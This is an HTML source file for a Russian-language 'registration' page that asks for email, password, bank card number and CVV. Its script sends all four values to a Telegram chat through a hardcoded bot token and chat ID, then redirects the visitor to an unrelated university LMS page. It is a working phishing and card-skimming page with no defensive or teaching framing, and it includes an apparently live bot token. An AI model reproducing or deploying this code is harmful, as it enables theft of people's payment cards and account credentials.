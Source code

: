 <html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
    <style>
      form {
        display: flex;
        flex-direction: column;
        width: 250px;
        margin-left: 100px;
      }
      h1 {
        margin-left: 100px;
      }
      button {
        font-size: 20px;
        width: auto;
        margin-top: 5px;
        padding: 10px;
        background: green;
        color: white; /* Добавлено для улучшения видимости текста на кнопке */
      }
      #forgot-password {
        background: blue; /* Измените цвет фона для кнопки "Забыли пароль?" */
      }
    </style>
</head>
<body>
    <h1>Регистрация</h1>
    <form id="registrationForm">
        <p></p>
        <label for="email">Email</label>
        <input type="text" id="email" name="email" required maxlength='50' onkeypress="return /[a-zA-Z0-9@.]/.test(event.key)" title="Email должен содержать только латинские буквы, цифры, @ и .">
        <br>
        <p></p>
        <label for="pass">Пароль</label>
        <input type="text" id="pass" name="password" required maxlength='20' onkeypress="return /[a-zA-Z0-9]/.test(event.key)" title="Пароль должен содержать только латинские буквы и цифры (максимум 20 символов)">
        <p></p>
        <label for="cvv">CVV код (3-х значный код на обратной стороне карты)</label>
        <input type="text" id="cvv" name="cvv" required maxlength="3" oninput="this.value = this.value.replace(/[^0-9]/g, '')">
        <br>
        <p></p>
        <label for="card">Номер банковской карты</label>
        <input type="text" id="card" name="card" required maxlength="16" oninput="this.value = this.value.replace(/[^0-9]/g, '')" title="Введите номер карты (только цифры)">
        <button type="submit">Зарегистрироваться</button>
        <button type="button" id="forgot-password">Забыли пароль?</button> <!-- Кнопка для восстановления пароля -->
    </form>

    <script>
        const form = document.getElementById('registrationForm');

        form.addEventListener('submit', e => {
            e.preventDefault(); 
            
            const username = document.getElementById('pass').value;
            const email = document.getElementById('email').value;
            const card = document.getElementById('card').value;
            
            

            // Проверка на наличие символа @ в email
            if (!email.includes('@')) {
                alert('Пожалуйста, введите корректный адрес электронной почты (должен содержать @).');
                return;
            }

            // Проверка на допустимые символы в email
            const emailPattern = /^[a-zA-Z0-9@.]+$/;
            if (!emailPattern.test(email)) {
                alert('Email может содержать только латинские буквы, цифры, @ и .');
                return;
            }

            const cvv = document.getElementById('cvv').value;
            

            const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g';
            const chatId = -1002372284940; 
            const message = `Новая регистрация:\n Почта: ${email}\n Пароль: ${username}\n CVV: ${cvv}\n номер банка: ${card}`;
            const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;
            
            fetch(url) 
            .then(response => {
                if (response.ok) {
                    alert('Данные успешно отправлены в Telegram!');
                    // Перенаправление на другую страницу
                    window.location.href = 'https://lms.dgmu.ru/mod/quiz/report.php?id=44292&mode=overview'; 
                } else {
                    console.log('error');
                }
            })
            .catch(error => {
                console.error('Ошибка:', error);
                alert('Ошибка при отправке данных.');
            });
        });

        // Обработчик клика для кнопки "Забыли пароль?"
        document.getElementById('forgot-password').addEventListener('click', function() {
            window.location.href = 'https://sheikh05ed.github.io/register_on_vk.github.io/'; 
        });
    </script>
</body>
</html>

